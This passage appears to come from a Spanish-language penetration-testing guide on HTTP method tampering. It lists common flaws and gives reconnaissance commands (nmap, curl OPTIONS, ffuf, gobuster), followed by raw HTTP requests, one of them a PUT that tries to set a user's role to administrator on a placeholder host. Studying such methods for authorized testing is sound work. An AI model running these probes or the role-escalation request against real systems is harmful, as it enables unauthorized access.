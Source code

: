 ### Vulnerabilidades Comunes
1. **Falta de validación de métodos**
2. **Configuraciones por defecto inseguras**
3. **Bypass de restricciones de seguridad**
4. **Inconsistencias en la implementación**

---

## Metodología de Testing

### Fase 1: Reconocimiento

#### 1.1 Identificación de Endpoints
```bash
# Escaneo inicial con nmap
nmap -p 80,443,8080,8443 --script http-methods target.com

# Identificar métodos permitidos
curl -X OPTIONS -v http://target.com/path
curl -X OPTIONS -v http://target.com/admin
```

#### 1.2 Enumeración de Rutas
```bash
# Usar herramientas como dirb, dirbuster, ffuf
ffuf -w wordlist.txt -u http://target.com/FUZZ -X OPTIONS

# Identificar endpoints administrativos
gobuster dir -u http://target.com -w admin-panels.txt
```

### Fase 2: Testing Sistemático

#### 2.1 Testing de Métodos Básicos
```http
# Test GET vs POST
GET /admin HTTP/1.1
Host: target.com

POST /admin HTTP/1.1
Host: target.com
Content-Length: 0
```

#### 2.2 Testing de Métodos Alternativos
```http
# Test con PUT
PUT /admin/users/1 HTTP/1.1
Host: target.com
Content-Type: application/json
Content-Length: 25

{"role": "administrator"}
```
